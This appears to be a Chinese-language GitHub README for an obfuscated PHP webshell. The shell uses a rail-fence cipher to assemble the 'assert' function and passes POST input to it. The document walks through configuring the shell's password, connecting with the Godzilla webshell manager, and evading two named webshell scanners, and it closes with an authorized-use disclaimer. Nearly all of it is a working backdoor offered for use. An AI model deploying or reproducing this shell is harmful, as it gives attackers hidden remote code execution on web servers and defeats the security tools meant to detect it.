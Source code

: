 # Bypass php webshell
## 0x01 Ways

栅栏加密，类方法，采用拼接assert函数名的方式达到绕过

php版本有限制,在phpstudy环境下尝试只有php版本低于或者等于7.0.9才能使用

以下是php代码逻辑

```php
<?php
class ming{
    function decode_ming($ling) {          
        $str='e15s544mgl633610ita71478rn';
        $n=3;
        $length = strlen($str);
        $table = array();
        $quotient = (int)($length / $n);
        $remainder = $length % $n;
        for ($i = 0; $i < $n; $i++) {
            $table[$i] = array();
        }
        $index = 0;
        for ($i = 0; $i < $n; $i++) {
            $rowCount = $quotient + ($i < $remainder ? 1 : 0);
            for ($j = 0; $j < $rowCount; $j++) {
                $table[$i][$j] = $str[$index++];
            }
        }
        $decodedStr = '';
        for ($i = 0; $i < $quotient + 1; $i++) {
            for ($j = 0; $j < $n; $j++) {
                if (isset($table[$j][$i])) {
                    $decodedStr .= $table[$j][$i];
                }
            }
        }       //栅栏加密的解密程序，用来将字符串$str以及栅栏变量$n进行解密得出$decodedStr
        $config=$decodedStr['2'].$decodedStr['9'].$decodedStr['9'].$decodedStr['0'].$decodedStr['20'].$decodedStr['25'];
                //用于重组assert，来使用assert函数
        return $config($ling);
    }
}
$ming=new ming();//创建一个类
function myHiddenPost($key) {
    return isset($_POST[$key]) ? $_POST[$key] : null;
}               
$mingValue = myHiddenPost('ming');
                 //使用myHiddenPost函数来定义$mingValue=$_POST['ming']
$ming->decode_ming($mingValue);
                 //使用decode_ming函数来构造//assert($_POST['ming']);
?>
```

### 食用方式
通过generate.php获取$config字段以及栅栏加密混淆的payload

![image-20231014132450168](./images/5.png)

替换$str字符串以及$config字符串

![image-20231014132450168](./images/6.png)
![image-20231014132450168](./images/7.png)

$mingValue = myHiddenPost('ming')设置了连接密码为ming，如果有需要请更改它

![image-20231014132450168](./images/9.png)

配置好即可用Godzilla连接

![image-20231014132450168](./images/8.png)
## 0x02 Results

bypass 河马webshell查杀 以及  安全狗(两种查杀工具杀不到混淆木马)

![image-20231014132450168](./images/3.png)

## 0x03 免责声明

本工具仅用于合法的授权安全测试和教育目的。未经授权访问或测试未授权的系统是非法的，会产生法律责任。 

本工具的作者概不负责任何非法或未经授权使用此工具所产生的后果。使用者承担使用本工具的全部责任。 
